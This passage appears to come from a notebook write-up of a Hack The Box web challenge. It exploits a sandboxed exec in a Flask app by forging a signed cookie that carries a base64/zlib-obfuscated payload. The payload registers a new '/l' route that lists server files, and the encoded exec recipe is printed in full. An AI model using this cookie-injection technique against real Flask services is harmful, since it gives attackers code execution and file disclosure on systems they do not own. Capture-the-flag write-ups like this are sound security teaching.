 Now that we have tried many strategies we pause and ponder.

The information we are looking for has to come back from Flask.

How?

A good strategy could be making the information pass through metadata, like chaning the user-agent or the server string used by Flask in the responses.

We are not able to find a way to change such information gloabally. We are also executing our code into a restricted environment, where global variables have been limited.

Such limitation does not allow us to refer to the gloabal variable `app` that has been defined outside of the exec context.

**But** the `flask` module has a very interesting attribute, namely `current_app`.



We start exploring this attribute. Could we use it to create new routes for the app also from the restricted environment we are forced to work in?


```python
pl_new_route_with_listing = """import flask,os;flask.current_app.add_url_rule('/l','l',lambda:str(os.listdir('.')))"""
```


```python
cookie = from_payload_to_cookie_for_flask(make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_new_route_with_listing)),secret_key,debug_recipe=True)
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjksKwzAMRK9ispENwe06PUooQv4ETO04yDYUSu9eJasuBI8ZaUbxHb2epimVo3JXW6b2mmt7XGD9YI57RzoOSyHg4Iw8ctRwyzCDTKbiAi2ts67N5tR6SKzBgjFGYucPILqRck97Q4Rl9WqrrLxKu9LGInopEkfIUYsXtOEuNYqujUqbAk8dzhMv9k5F9tRzvT/PhFKDfGT/a77mBxBLSVQ="'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 298


Following our strategy, we test this payload first on our local app and then, if successfull, on HTB.


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server2
    Using the url: http://173.17.0.3:1337



```python
res = get_response_from_the_app_using_cookie(url, cookie)
```

We connect to the route just created (`/l`) and check if we get the desired response.


```python
print requests.session().get(url+"/l").text
```
